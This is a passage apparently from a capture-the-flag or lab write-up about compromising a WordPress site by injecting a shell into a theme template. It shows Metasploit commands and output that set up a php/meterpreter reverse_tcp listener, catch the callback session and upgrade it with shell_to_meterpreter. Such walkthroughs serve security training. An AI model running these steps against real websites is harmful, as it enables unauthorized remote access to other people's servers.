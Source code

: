 ![wordpress template injection](/static/img/internal_http_wp_shell_injection.png)

Prior to saving the theme, I prepped a listener in using the `exploit/multi/handler` module in metasploit to catch the new meterpreter session.

```bash
msf5 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > run -j
[*] Exploit running as background job 3.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.253.137:4444
```

I then refreshed the site index and prepared the `multi/manage/shell_to_meterpreter` module to migrate the incoming shell to a new process not attached to the php session.

```bash
msf5 post(multi/manage/shell_to_meterpreter) > 
[*] Sending stage (38288 bytes) to 10.10.215.86
[*] Meterpreter session 1 opened (10.10.253.137:4444 -> 10.10.215.86:58660) at 2020-12-05 05:33:03 +0000

msf5 post(multi/manage/shell_to_meterpreter) > set session 1
session => 1
msf5 post(multi/manage/shell_to_meterpreter) > run

[!] SESSION may not be compatible with this module.
[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
```